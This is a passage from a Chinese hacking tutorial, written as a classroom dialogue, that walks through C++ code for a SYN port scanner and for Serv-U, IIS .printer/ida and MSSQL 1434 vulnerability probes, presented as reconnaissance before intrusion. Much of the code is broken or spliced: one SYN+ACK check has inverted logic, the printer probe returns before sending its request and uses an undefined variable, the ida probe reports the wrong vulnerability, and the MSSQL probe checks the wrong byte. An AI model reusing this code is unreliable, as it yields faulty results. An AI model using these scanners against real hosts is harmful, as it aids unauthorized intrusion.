typedef struct tagTHREADPARAM
{
    DWORD dwStartIp;   // 开始IP
    DWORD dwEndIp;     // 结束IP
    DWORD dwStartPort; // 开始端口
    DWORD dwEndPort;   // 结束端口
    CSynScanDlg* pDlg; // 对话框实例指针
    HANDLE hCopyOKEvent; // 数据拷贝完成事件
    HANDLE hRecvStopEvent; // 数据接收线程结束事件
} THREADPARAM, *PTHREADPARAM;
```


“准备工作已经作好了，现在编写 OnBnClickedOk 就容易了，直接填充参数，开启线程即可。”

```cpp
void CSynScanDlg::OnBnClickedOk()
{
    // 获取IP和端口
    UpdateData(TRUE);
    DWORD dwStartIp;
    DWORD dwEndIp;
    m_ipStartCtrl.GetAddress(dwStartIp);
    m_ipEndCtrl.GetAddress(dwEndIp);
    // 定义线程参数变量
    THREADPARAM Param = {0};
    HANDLE hCopyOKEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    Param.hCopyOKEvent = hCopyOKEvent;
    HANDLE hRecvStopEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    Param.hRecvStopEvent = hRecvStopEvent;
    Param.dwStartIp = dwStartIp;
    Param.dwEndIp = dwEndIp;
    Param.dwStartPort = m_uStartPort;
    Param.dwEndPort = m_uEndPort;
    Param.pDlg = this;
    // 创建syn接收线程
    CreateThread(NULL, 0, SynRecvThread, &Param, 0, NULL);
    WaitForSingleObject(hCopyOKEvent, INFINITE);
    ResetEvent(hCopyOKEvent);
    // 创建syn发送线程
    CreateThread(NULL, 0, SynSendThread, &Param, 0, NULL);
    WaitForSingleObject(hCopyOKEvent, INFINITE);
}
```

“发送线程 SynSendThread 的编写，SynSendThread 需要对每一个 IP、每一个端口都发送 SYN 数据包，因此需要一个嵌套的循环结构。”

```cpp
for()
{
    for()
    {
        发送SYN包
    }
}
```

“而发送 SYN 包就是三个步骤：建立 TCP 套接字 -> 修改套接字为非阻塞模式 -> connect -> closesocket。这么一整理，思路清晰了，真是佩服自己啊，真是（此处省略10000字，低调低调啊）……那么实现的代码如下。”

```cpp
DWORD WINAPI SynSendThread(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    SetEvent(Param.hCopyOKEvent);
    for (DWORD dwIp = Param.dwStartIp; dwIp <= Param.dwEndIp; dwIp++)
    {
        for (DWORD dwPort = Param.dwStartPort; dwPort <= Param.dwEndPort; dwPort++)
        {
            // 目标IP地址
            sockaddr_in addr;
            addr.sin_family = AF_INET;
            addr.sin_port = htons(dwPort);
            addr.sin_addr.S_un.S_addr = htonl(dwIp);
            SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
            if (sock == INVALID_SOCKET)
            {
                continue;
            }
            // 设置异步操作套接字所用的参数
            ULONG argp = 1;
            // 设置非阻塞操作
            if (ioctlsocket(sock, FIONBIO, &argp) == SOCKET_ERROR) // 设置失败
            {
                // 关闭套接字并获取下一个IP后重新开始
            }
        }
    }
}
``````c
closesocket(sock);
continue;

connect(sock, (sockaddr*)&addr, sizeof(addr));
closesocket(sock);
Sleep(50);
...
// 等待10秒
Sleep(1000);
SetEvent(Param->hRecvStopEvent);
return 0;
```

“现在轮到数据包接收线程了，呵呵，离成功已经不远了，同样先来分析，然后编码。老师已经讲过了，建立原始套接字 -> 绑定一个网卡置于混杂模式 -> 捕获数据包 -> 分析数据包。”

```c
socket(AF_INET, SOCK_RAW, IPPROTO_IP);
bind(sock, (sockaddr*)&addr, sizeof(addr));
WSAIoctl(sock, SIO_RCVALL, &dwin, sizeof(dwin), NULL, 0, &dwRet, NULL, NULL);
recv(sock, RecvBuf, sizeof(RecvBuf), 0);
```

“前面四步一步一句代码，简单。关键是分析数据包了，在探测存活性的时候我们只是检测了 IP 头中的源 IP，可是这次不一样啊，首先得检测协议类型是否为 TCP，这个在 IP 头里面就可以判断；其次还要检查返回的数据包 TCP 的标志位是否是 SYN+ACK。而 SYN 和 ACK 是怎么定义的呢？它们的值是多少？这下遇到拦路虎了，看来这个问题要自己解决了，内事不决问 baidu，外事不决问 google。”

“拿起 google 开始行动，结果搜索了半天都没有找到 SYN 和 ACK 的定义，突然在一个论坛里面有人提到 SYN+ACK 就等于 0x12。没法了，还是上课的时候问问老师吧，为什么会是 0x12？今天就暂时借用着试试。”

```c
LPIPHEADER pIpHeader = (LPIPHEADER)RecvBuf;
LPTCPHEADER pTcpHeader = (LPTCPHEADER)(pIpHeader + 1);
if (pIpHeader->proto == IPPROTO_TCP ||
    pTcpHeader->th_flag != 0x12)
{
    // 不是 SYN+ACK 包
}
```

“yes，这个搞定，判断端口和 IP 就是小 case 了，下一步就是代码的编写，easy。”

```c
DWORD WINAPI SynRecvThread(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));

    // 创建原始套接字用于获取发送给本机的网络数据包
    SOCKET sock = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
    if (sock == INVALID_SOCKET) {
        AfxMessageBox("接收线程建立Socket失败");
        return 0;
    }

    // 必须将套接字绑定到本机的某一端口上才能获取所有发送给本机的数据包
    sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = INADDR_ANY;
    addr.sin_addr.S_un.S_addr = inet_addr("192.168.15.20");
    if (bind(sock, (sockaddr*)&addr, sizeof(addr))) {
        closesocket(sock);
        AfxMessageBox("接收线程绑定失败");
        return 0;
    }

    // 设置该套接字接收所有数据包
    DWORD dwin, dwRet;
    if (WSAIoctl(sock, SIO_RCVALL, &dwin, sizeof(dwin), NULL, 0, &dwRet, NULL, NULL)) {
        closesocket(sock);
        AfxMessageBox("接收线程设置套接字失败");
        return 0;
    }

    // 存储接收的数据
    char RecvBuf[256];
    int nLen = sizeof(addr);
    SetEvent(Param.hCopyOkEvent);

    // 循环接收数据包
    while (WaitForSingleObject(Param.hRecvStopEvent, 0) == WAIT_TIMEOUT)
    {
        if (recv(sock, RecvBuf, sizeof(RecvBuf), 0) <= 0)
            continue;

        // 解析数据包中的 IP、TCP 头
        PIPHEADER pIpHeader = PIPHEADER(RecvBuf);
        PTCPHEADER pTcpHeader = PTCPHEADER(pIpHeader + 1);

        // 判断 IP 是否符合
        if (htonl(pIpHeader->sourceIP) > Param.dwEndIp ||
            htonl(pIpHeader->sourceIP) < Param.dwStartIp)
            continue;

        // 判断是否是 TCP 包并且为 SYN+ACK
        if (pIpHeader->proto != IPPROTO_TCP ||
            pTcpHeader->th_seq != 0 || (pTcpHeader->th_flag != 0x12))
            continue;

        // 判断是否为符合的端口
        if (htons(pTcpHeader->th_sport) > Param.dwEndPort ||
            htons(pTcpHeader->th_sport) < Param.dwStartPort)
            continue;

        in_addr remoteAddr;
        remoteAddr.S_un.S_addr = pIpHeader->sourceIP;
        CString str;
        str.Format("%s : %d: 端口开放",
            inet_ntoa(remoteAddr), htons(pTcpHeader->th_sport));

        // 添加结果
        Param.pDlg->m_BackMsgList.InsertItem(0, str);
    }

    closesocket(sock);
    return 0;
}
```

“代码终于编写完了，就等庆祝胜利了，‘Ctrl + Shift + B’ 编译工程，嘿……怎么弹出这么多的错误啊？哇噻！总共 96 个，如图 3-28。”

“赶紧看看前面老师说的，还有什么没有记住，哦，原来是没有添加头文件啊，赶紧在 stdafx.h 中添加上。”

```c
#include "winsock2.h"
#pragma comment(lib, "ws2_32.lib")
```

“再来编译试试，啊呀，只剩一个错误了：‘error C2065: ‘SIO_RCVALL’: 未声明的标识符’。双击错误列表，原来是 WSAIoctl(sock, SIO_RCVALL, &dwIn, sizeof(dwIn), NULL, 0, &dwRet, NULL, NULL) 这一句中使用了 SIO_RCVALL，这个是什么地方引起的呢？又准备拿起 google 开始搜索，突然想起 vc2003 的‘转到定义’功能，于是便试试，光标移到 SIO_RCVALL 上面，点击右键 -> ‘转到定义’，vc2003 开始搜索了，果然过了一会儿页面就跳转到了 mstcpip.h 里，这里面给出了 SIO_RCVALL 的定义。啊哈，在 stdafx.h 中加上 #include "mstcpip.h" 再次编译，哇，终于成功了。苍天啊，大地啊，终于让我成功了，赶紧执行扫描任务。又是‘嘣’的一声，建立 socket 失败，我晕，如图 3-29。”

“你还‘晕’，我这个日记都写了多少页了，你都还‘晕’，像话吗？唉，不像话也得找出错误啊，还是老师说的对，程序是调试出来的。检查一下哪里没有做到，或者哪里写错了，半晌之后，终于发现我还没有调用 WSAStartup() 进行网络初始化呢，怪不得 socket 建立都不成功，也怪不得老师一直强调，可是还是被我忘记了。在 BOOL CSynScanApp::InitInstance() 中加上 WSADATA wsaData; WSAStartup(MAKEWORD(2,2), &wsaData); 以及 WSACleanup();。再次执行，还是扫描 202.115.32.0 这个网段吧，终于看到效果了，如图 3-30。”

“不过为什么那么奇怪呢？我只能扫描到一台机子的 80 端口开放，记得老师使用 Connect 扫描的时候可不止一台机子啊？代码也不觉得有什么问题，再次切换了几个 IP 段来测试，发觉情况都差不多，最多也就前面几个 IP 地址能够扫描出来，后面的根本就不行，就好像只检测了前面几个目标一样，这是什么原因呢？唉，my god，居然这么晚了。支持不住了，我要睡觉了，下次课问问老师是什么原因吧。”

第二天上课后，老师问道：“大家觉得这次的家庭作业如何？”

“看你编写程序的时候觉得不难，可是真正自己写的时候却是困难重重，问题出了一个又一个，现在还有很多问题没有解决呢。”小菜们都开始意识到动手的重要性，“还是赶快给我们一个最完美的解决方案吧。”

# 第三章 端口与漏洞扫描编程

“最完美的程序。”老师说道，“这里呢，我就把你们在 SYN 扫描程序中遇到的问题收集一下，把其中比较关键的地方提出来讲一下。”

- 1. 如何判断是 SYN+ACK 数据包。
- 2. 为什么扫描程序每次只能扫描前面几个目标，而后面扫描的全部失败。

“很多同学都卡在了第一个问题上，不知道如何判断标志位是否为 SYN+ACK，因为找不到它的定义。大家请注意 TCPHEADER::th_flag 是一个 BYTE 类型的字段，BYTE 一共由 8 位组成，而它就使用后面的 6 位来作为 TCP 的状态标识，如图 3-31。”

“如果是 SYN 包的话，那么以二进制表示就是 00000010，其值为 2；如果是 SYN+ACK 的话，那么二进制表示就为 00010010，其值为 0x12。因此，如果检测到 th_flag 等于 0x12 的话，那么就可以判断响应的端口存活了。”

“哦，原来定义是这么回事，怪不得等于 0x12。”小菜明白了。

“第二个问题就不那么好解决了。其主要原因是因为微软为了防止 SYN 洪水而采取的极端措施，在 WinXP SP2 以及 Win2003 SP1/SP2 中做了限制，首先禁止原始套接字发送原始 IP 包，这个问题在前面已经提到过了；其次就是限制 TCP 连接数。在这些版本中，限制的网络连接数为 10。因此，当我们使用 connect+closesocket 方法循环发送 SYN 包的时候，就只有前 10 个 SYN 数据包发送成功，而后要等一段时间才能继续发送数据包。”

“哦，原来不是我们实现的问题，而是微软搞的鬼啊。”小菜们嚷道。

“人在屋檐下，不得不低头啊，很多正常软件的使用也受到了影响，比如 BT 软件，因此网络上出现了对 TCP 限制数进行破解的软件。为了让扫描事业发扬广大，我也制作了一个比较通用的小工具来修改 TCP 限制数，如图 3-32。”

“连接数编辑框中的数字是当前 TCP 的限制数。”

“哦，原来老师的当前连接数已经是 256 了，怪不得在用 SYN 检测存活性的时候也能正常工作。”

“目前，该版本是针对 XP SP2 和 2003 SP1/SP2 的通用版本，如果在修改后重启网络工作不正常，那么可以试试将修改的 tcpip.sys 文件还原。tcpip.sys 的位置在 %system32%/driver 目录下，而备份的 tcpip.sys 名字叫做 tcpip.sys.bak。还原的方法就是删除被破坏的 tcpip.sys，再将 tcpip.sys.bak 改为 tcpip.sys，再次重启就可以了。好了，破解 TCP 限制数的源代码放在光盘中，如果大家有兴趣可以研究讨论一下。这两个主要问题解决了，其它的问题大家可以相互讨论一下，做出一个自己认为完美的作品。”

## 3.2 漏洞扫描

“好了，通过端口扫描，我们已经可以大致推断出目标主机究竟提供了哪些服务，也算是完成了入侵的最初步踩点工作，那么下一步工作是什么呢？”

“当然是漏洞扫描了哦。”小菜们说道。

“不错！那么谁可以来说谈谈所知道的漏洞呢？”

“我来。”小菜 A 生怕自己落后了其他人，“RPC 漏洞，IIS 漏洞，IE 漏洞，WORD 漏洞……”

“还有 PNP 漏洞，SQL 注入漏洞，跨站漏洞……”小菜 B 也来补充道。

“看来大家知道的漏洞还真不少，不过 IE 漏洞、WORD 漏洞这些在网络上可扫描不出来。它们都属于被动攻击，不会对网络上提供任何服务。这种被动攻击的漏洞只能根据操作系统的版本、补丁号来进行判断。而今天我们所探讨的漏洞扫描主要指的是基于网络的漏洞扫描，比如 X-Scan、流光这样的工具。”

### 3.2.1 基于网络的漏洞分类

“知彼知己，百战不殆，首先我们需要弄清楚一个概念，什么是漏洞，其定义是什么？漏洞的定义：安全漏洞是指由于系统、软件在设计实现时或者是在安全策略的制定配置上的错误而引起的缺陷，是违背安全策略的软件特征，有恶意企图的用户能够利用安全漏洞非法访问系统或者破坏系统的正常使用。按照这个定义，我们可以把漏洞分为两种：第一种是软件设计漏洞，刚才大家所说的漏洞全部属于这一类。第二种是安全策略配置漏洞，比如 FTP 弱口令、MSSQL 的 sa 空密码、MySQL 弱口令、共享文件访问等等。而软件设计漏洞按照造成的危害还可以进行一下分类，比如代码执行漏洞（如溢出漏洞）、信息泄漏漏洞、越权访问漏洞、拒绝服务等。”

“哦，RPC 漏洞、PNP 漏洞就是代码执行漏洞，而 SQL 注入、跨站漏洞就是信息泄漏漏洞。”小菜们将前面的漏洞对号入座。

“经过我们的分类整理，目标就更加明确了，现在再来对每个类型的漏洞进行分析，找出扫描这些漏洞的方法。为了能够使讲解更有代表性，我将选取其中的溢出漏洞、弱口令漏洞以及 SQL 注入漏洞来进行分析，讲述其扫描方法。首先我们来谈危害最大、攻击最为直接的溢出漏洞。”

### 3.2.2 溢出漏洞扫描

“为什么说溢出漏洞危害最大呢？如果溢出漏洞能够利用成功，就会以提供该服务的权限来执行命令。比如我们的 Serv-U 是以系统服务的形式自启动的，那么 Serv-U 现在的运行权限就是 system，如图 3-33。”

“可以看到 SERVUDaemon.EXE（Serv-U 的守护进程）运行的用户是 system，如果溢出 Serv-U 成功，那么我们就可以以 system 用户的权限来执行命令。system 可是 Windows 下较高权限的用户哦，比 administrator 还要高一个级别呢，溢出之后你要添加管理员用户等等都不在话下。”

“原来是这样呀，借鸡生蛋，真 cool。”小菜说道，“那快点给我们讲讲怎么样来进行扫描吧。”

“好的，我们下面就来说说怎么样来扫描溢出漏洞。在此之前，我想说明一下，漏洞的扫描关键不在于如何编程，而在于原理方法的分析。溢出漏洞可以使用三种方法来进行扫描，首先来看第一种：banner 信息或者文件映射存在性判别法。其原理就是通过判断 banner 信息中的关键字或漏洞文件及映射的存不存在，来大致推断远程主机有无漏洞。我们还是使用实际的例子来说明这种检测方法吧。比如我们想探测远程主机的 Serv-U 服务器有无 MDTM 漏洞，就可以通过 banner 信息中的版本号来判断，Serv-U 的 5.0.0.4 以前的版本都具有该漏洞，而我们在连接 Serv-U 服务器时，它就会给出其版本信息，比如是 3.0、4.0 或 5.0。我们使用 Windows 自带 ftp 程序来连接 192.168.15.20，如图 3-34。”

“它显示的 banner 信息是 4.0，所以它肯定具有 MDTM 漏洞，如果使用相应的工具攻击，就会成功喽。又如在探测 IIS 的 Printer 漏洞时，一般的扫描器是检测 .printer 这个文件映射是否存在；同样在探测 IIS 的 ida/idq 漏洞时，也是通过文件映射来进行判断，其依据是只要存在这个文件映射，那么就可能是有漏洞的文件。我们以虚拟机中的 .printer 映射为例，首先看看有 .printer 映射的效果，如图 3-35。”

“然后再把虚拟机里面的 .printer 映射删除，再次访问，如图 3-36。”

“哦，果然存在着差异。”小菜们点了点头。

“这种检测方法有其优点，那就是不会对提供服务的主机或者程序造成危害，并且可以使用手工来探测。”老师说道，“然而其也存在着先天的缺点，那就是准确度不高。比如 Serv-U 显示的是 5.0，则不知道是 5.0.0.4 以前还是以后的版本，就无法给出完全准确的结果了。而对于 IIS 的 Printer 和 ida/idq 漏洞，如果主机打上了补丁，则虽然还存在对应文件和处理映射，但实际上是没有漏洞的。”

“哦，怪不得使用 X-Scan 扫描时，会经常出现‘可能有 ida、idq 漏洞’的提示，而实际攻击测试却又根本没有，那么 X-Scan 肯定也是采用的这种方法了。”小菜 A 对 X-Scan 可真熟悉。

“分析正确！下面就来看看如何使用编程的方法来进行漏洞的探测。首先是 Serv-U 的漏洞检测，其关键就是获得服务的 banner 信息，并对 banner 信息中的版本进行判断。通过以前的学习，相信这个程序对大家来说就是小菜一碟。我们一起来完成 Serv-U 漏洞探测的流程吧：socket 建立 -> connect 连接服务器 -> recv 接收数据包，判断数据包里面是否有‘Serv-U v4.0’或者‘Serv-U v5.0’的标志，如果发现，那么就报告有可能有漏洞。至于编程的细节这里就不描述了，因为太简单了。接下来我们进行 .printer 和 ida/idq 漏洞检测的分析。前面使用 IE 浏览器已经为大家演示了 .printer 映射存在和不存在的差别，那么如果使用```## 第三章 端口与漏洞扫描编程

“程序来进行编程应该如何检测呢？程序是如何将 `http://192.168.15.31/null.printer` 这个 URL 的请求发送到服务端去呢？”

> “哦，好像还没有想过这个问题，难道不是把我们输入的 URL 地址直接发送到服务端吗？”小菜们有点糊涂了。

“当然不是，我们使用 `telnet` 来证实一下你们的想法，首先打开一个 `cmd` 窗口，然后在里面输入 `telnet 192.168.15.31 80` 回车，然后输入 `http://192.168.15.31/null.printer`，连续回车两次，效果如图 3-37 所示。”

> “Bad Request”，这表示我们发送的请求命令是错误的哦。

> “那么应该怎么发送我们的请求信息呢？”小菜们问道。

“这个就要涉及到 HTTP 协议的问题了，也就是说我们发送的数据包应该符合 HTTP 协议的规范，不然就会出现上面的 `Bad Request` 情况。我们能够在 IE 浏览器上直接输入 URL 访问，那是因为 IE 浏览器会把输入的请求转化为符合 HTTP 协议的数据包发向服务器，而服务器就会返回符合 HTTP 协议的数据包，最后 IE 浏览器解析协议，将结果显示出来。”

> “原来 IE 浏览器帮我们做了这么多的事情啊。”

“对啊，做了好事不留名，新一代的好青年，我们要向它学习！看看它是如何把我们输入的 URL 转化为 HTTP 协议格式的数据包的。为了看到 IE 浏览器是如何转化的，我们利用嗅探工具将 IE 浏览器的数据包捕获下来分析。我使用的工具是 IRIS，如图 3-38，这款嗅探工具是由大名鼎鼎的 `eEye` 出品的，其使用非常简单，点击绿色的‘播放’按钮就可以进行数据包嗅探了。它不仅可以详细地显示捕获下来的数据包对应协议的字段，还可以将数据包整理还原，是我们分析网络、学习协议和调试网络程序的必备利器哦。下面我们就使用 IRIS 来对 IE 浏览器进行网络通信行为分析。”

“首先使用 IRIS 开始抓包，然后开启一个 IE 浏览器，输入访问的 URL：`http://211.83.158.13/null.printer`，回车进行连接，网页上显示‘无法找到网页’。现在 IRIS 已经捕获到了数据包哦，我们可以使用左侧的 `Decode` 按钮让 IRIS 为我们把数据包的内容解析出来，查看 211.83.158.13 的数据包可以看到如下的结果。”


```text
http
GET /null.printer HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NET CLR 1.1.4322)
Host: 211.83.158.13
Connection: Keep-Alive
```

> “这就是 IE 浏览器向 211.83.158.13 发送的数据。”

> “想不到最后产生的数据包是这个样子的。”小菜们看到了庐山真面目，可还是不敢相信。

“我们还是来简单地分析一下上面数据包的各个字段代表了什么意思。首先是 `GET`，它表示了数据发送采用的方法，其有 GET 和 POST 之分。如果在 URL 上输入网址进行访问，那么其方法就是 GET；如果使用网页中表单的提交按钮来访问网址，那么其方法就是 POST。比如你在登录论坛输入用户名密码点击登录按钮的时候，就是使用 POST 方法把数据传送到服务器的。其次是 `/null.printer`，它表示了请求的网页对象，可以在 URL 上找到对应的关系。”

> “终于看到一个熟悉的东西了。”小菜们说道。

“`HTTP/1.1` 表示 HTTP 协议的版本，目前大部分使用的 HTTP 协议还是 1.1 版本。`Accept` 表示客户端（也就是 IE 浏览器）可以接收的数据类型。`Accept-Language` 表示客户端使用的语言，`zh-cn` 是简体中文的简称。`Accept-Encoding` 表示客户端支持的编码，`User-Agent` 为客户端的型号，`Host` 为目标主机的 IP 地址。”

“IE 浏览器做的好事还真是实实在在的哦，如果没有它，我们访问一个网页岂不是要敲半天的键盘。”小菜们从心里开始感谢 IE 浏览器了。

“那我们是不是可以依葫芦画瓢，将上面的数据复制下来，修改一下 Host 再发送出去，就可以完成一次 HTTP 请求呢？”小菜 A 灵机一动。

“Absolutely Right，不过还有更懒的方法。传说正是有了懒人才有了社会的巨大发展，比如汽车，是因为有懒人想不走路嘛，所以才催生出来的哦。”

“啊？是吗？”小菜们心里都在嘀咕这个究竟是不是正确的。

“其实上述的很多类型都是可选的，只需要数据发送的方式、请求对象、HTTP 协议以及 `Host` 字段就可以完成一次 HTTP 协议了。因此我们发送的数据包只要像这样就可以了哦：`GET /null.printer HTTP/1.1\r\nHost:211.83.158.13\r\n\r\n`。注意 `\r\n`，它们就是换行回车符号，HTTP 协议是以它们为请求结束的标志。数据包发送的问题解决了，再来看看接收的数据包，同样请 IRIS 帮忙，查看刚才服务器返回的数据包。”

```text
HTTP/1.1 404 Object Not Found
Server: Microsoft-IIS/5.0
Date: Wed, 05 Sep 2007 07:27:58 GMT
Connection: close
Content-Length: 2930
Content-Type: text/html
```

“我们这里需要用到的字段就是 `404` 位置的值，它是 HTTP 状态码，以下为一个大致的归类，`*` 代表任意的数字。”

- `1**`：请求收到，继续处理
- `2**`：操作成功收到，分析、接受
- `3**`：完成此请求必须进一步处理
- `4**`：请求包含一个错误语法或不能完成
- `5**`：服务器执行一个完全有效请求失败


“比如 200 表示一切正常，可以接收以后的数据包了，而 404 就是没有找到文件，500 表示服务器内部发生错误。因此我们在探测 printer 或者 ida/idq 的时候只用检测其返回的状态码就可以了。对于 printer 来说，如果返回 200 或者 500，那么则表示 printer 映射存在；ida/idq 则需要服务器返回 200 才能表示其映射存在。分析到这里，相信判断 printer 或者 ida/idq 的映射是否存在的程序编写也简单了。现在我们将上面两个漏洞扫描的程序合在一起，以 MFC 对话框的形式表现出来，而且以后我们也会将其他的漏洞扫描程序添加到这个子程序中，一步一步地来完善它。标准步骤，建立基于 MFC 对话框的工程，名称取为 `VulScan`，初始界面如图 3-39 所示。”

“使用了两个 `Check Box` 按钮，这样就可以选择扫描 Serv-U 或者 IIS 的漏洞。添加‘确定’按钮的消息响应函数，我们还是要以多线程来实现哦，以免界面僵死。首先来分析一下这个程序的流程：OnBnClickedOk -> 获取 IP 地址 -> 如果 FTP 被选，开启 FTP 扫描线程 -> 如果 IIS 被选，开启 IIS 扫描线程。再就是线程参数结构设计以及线程函数的声明。”

```cpp
typedef struct tagTHREADPARAM
{
    DWORD dwIp;            // 检测对象IP
    CVulScanDlg *pDlg;     // 对话框实例指针
} THREADPARAM, *PTHREADPARAM;
```

“消息响应函数的实现如下。”

```cpp
void CVulScanDlg::OnBnClickedOk()
{
    UpdateData(TRUE);
    DWORD dwIp;
    m_ipCtrl.GetAddress(dwIp);
    THREADPARAM Param = {0};
    Param.dwIp = dwIp;
    Param.pDlg = this;
    if (m_bFtp)
    {
        CreateThread(NULL, 0, FtpVulScanThread, &Param, 0, NULL);
    }
    if (m_bIIS)
    {
        CreateThread(NULL, 0, IisVulScanThread, &Param, 0, NULL);
    }
}
```

```cpp
CreateThread(NULL, 0, IisVulScanThread, &Param, 0, NULL);
...
Sleep(100);
```

“而 FTP 的检测线程也是非常简单的，这里把判断是否有漏洞的代码贴上。”

```cpp
// 伪代码
if (strlen(szRecvBuff) > 220) {
    // 检测是否是Serv-U
    if (strstr(szRecvBuff, "Serv-U")) {
        // 判断版本
        if (strstr(szRecvBuff, "v4.0") || strstr(szRecvBuff, "v5.0")) {
            // 存在漏洞
            // 这里5.0检测不一定准确，5.0.0.4以下才有漏洞
            TCHAR szMsg[MAX_PATH] = {0};
            wsprintf(szMsg, "%s可能存在Serv-U溢出漏洞", szIp);
            Param.pDlg->m_BackMsgList.InsertItem(0, szMsg);
        }
    }
}
```

“继续前进，来完成对 IIS 的两个漏洞 `.printer` 和 `.idc/.ida` 的检测。为了代码的可读性，我们将两个漏洞的检测代码用两个函数来完成，最后形成的 IIS 检测子线程的代码如下。”

```cpp
DWORD WINAPI IisVulScanThread(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    ...
    // 检测printer漏洞
    if (CheckPrinterVul(&Param)) {
        TCHAR szMsg[MAX_PATH] = {0};
        wsprintf(szMsg, "%s可能存在Printer漏洞", szIp);
        Param.pDlg->m_BackMsgList.InsertItem(0, szMsg);
    }

    // 检测idc/ida漏洞
    if (CheckIdcIdaVul(&Param)) {
        TCHAR szMsg[MAX_PATH] = {0};
        wsprintf(szMsg, "%s可能存在Printer漏洞", szIp);
        Param.pDlg->m_BackMsgList.InsertItem(0, szMsg);
    }

    return 0;
}
```

“`.printer` 的检测和 `.ida/.idq` 检测极其类似，因此这里只是将 `.printer` 映射的检测代码列举出来。”

```cpp
BOOL CheckPrinterVul(THREADPARAM *lpParam)
{
    SOCKET sock;
    SOCKADDR_IN sin;
    int flag;
    char szRecvBuff[1024] = {0};
    in_addr addr;
    addr.S_un.S_addr = htonl(lpParam->dwIp);
    char* szIp = inet_ntoa(addr);
    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock == INVALID_SOCKET) {
        return 0;
    }

    memset(&sin, 0, sizeof(sin));
    sin.sin_family = AF_INET;
    sin.sin_port = htons(80);
    sin.sin_addr.s_addr = htonl(lpParam->dwIp);
    flag = connect(sock, (struct sockaddr*)&sin, sizeof(sin));
    if (flag == SOCKET_ERROR) {
        ...
    }

    closesocket(sock);
    return 0;

    // 构造发送的HTTP请求包
    char szSendBuff[MAX_PATH] = {0};
    sprintf(szSendBuff, "GET /null.printer HTTP/1.0\r\nHost: %s\r\n\r\n", vul->szIp);
    send(sock, szSendBuff, strlen(szSendBuff), 0);

    // 接收banner以及状态信息
    flag = recv(sock, szRecvBuff, sizeof(szRecvBuff), 0);
    if (flag == SOCKET_ERROR)
    {
        closesocket(sock);
        return 0;
    }

    closesocket(sock);

    // 检测状态
    if (memcmp(szRecvBuff + 9, "200", 3) == 0 || memcmp(szRecvBuff + 9, "500", 3) == 0)
    {
        if (strstr(szRecvBuff, "IIS/5.0"))
        {
            // 有漏洞
            return TRUE;
        }
    }
    return FALSE;
}
```


“程序编码完成，来看看执行的效果吧，如图 3-40。”

“是不是发现这个漏洞扫描的例子比前面的端口扫描还要简单？其实漏洞扫描主要的是思路、原理的分析，编程的实现反而在其次了。OK，一鼓作气，我们继续介绍溢出漏洞扫描的第二种方法：补丁前后响应报文的差异判别法。很多存在漏洞的服务软件，在打补丁前后，其对于发送应用层请求返回的报文内容是不一样的，总是存在细微的差别，通过分析这些细微差别就能判断溢出漏洞存在与否。DCOM RPC、SQL Resolution、LSA、PNP 等多数漏洞的扫描都可以采用这种方法实现。这是最安全、准确的一种方法，但要求攻击者对漏洞自身的机理要很熟悉。这种方法在实现时的一个难点就是对特定服务的实现细节的理解和应用层通信协议（特别是 SMB、RPC 等协议）的分析，这部分做不好的话，就很难对漏洞进行判断。大多数情况下，攻击者很难清楚了解服务软件内部运行机制，特别是对于微软的一些服务软件。因此，可以通过别人的未公开源代码的扫描工具，采用反汇编、跟踪分析网络数据包等方式逆向还原出工具的代码。”

“这个听起来太高深了，还要反汇编逆向分析、网络数据包分析。”小菜听得头都晕了，“我们什么时候才能达到这个水平啊？”

“谁叫这种方式既准确又安全呢，当然需要付出更多的汗水。大家也不用被刚才的话吓倒了，高手永远都是菜鸟长成的，只要静下心来好好钻研，达到这种水平是指日可待哦。”

“首先我们找个运用该方法进行补丁检测的简单实例来润润喉：MSSQL 溢出漏洞（MS02-039）的漏洞扫描。SQL Server 2000 SP2 及以前版本中的 Resolution 服务存在漏洞，如果向服务主机 UDP 的 1434 端口发送以 `0x04` 开头的报文，则服务器会返回当前运行的 SQL Server 实例。但如果发送的该报文长度过长，则发生堆栈溢出。此外，如果发送其他格式的报文，例如以 `0x0a` 开头的请求，则服务进程会将该请求作为错误的请求报文处理。然而通过拦截数据包并进行分析，会发现在打补丁前后，向服务进程发送错误请求（以 `0x0a` 开头的数据）后，返回的报文内容是不一样的。如果仍然返回以 `0x0a` 开头的报文，则证明是存在漏洞的，否则不存在漏洞。原理分析清楚了，编程应该不困难了吧，直接给出其流程的伪代码。”

```cpp
SOCKET sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
sockaddr_in serv_addr;
serv_addr.sin_addr.s_addr = dwIp;
serv_addr.sin_family = AF_INET;
serv_addr.sin_port = htons(1434);
char szSendBuff[] = {0x0a, 0x00, 0x00, 0x00};
sendto(sockfd, szSendBuff, 5, 0, (struct sockaddr *)&serv_addr, sizeof(serv_addr));
char szRecvBuff[1000] = {0};
sockaddr addr;
int dwSize = sizeof(addr);
fd_set fdRead;
timeval TimeOut;
TimeOut.tv_sec = 5; // 5秒超时
TimeOut.tv_usec = 0;
FD_ZERO(&fdRead);
FD_SET(sockfd, &fdRead);
``````cpp
if (select(0, &fdRead, NULL, NULL, &Timeout) == 0 || FD_ISSET(Sockfd, &fdRead) == 0)
{
    // 如果发生错误或超时
    return 0;
}

recvLen = recv(Sockfd, szRecvBuf, sizeof(szRecvBuf), 0) + dwSize;

if (szRecvBuf[0] == '\x00')
{
    // 有漏洞
}
```

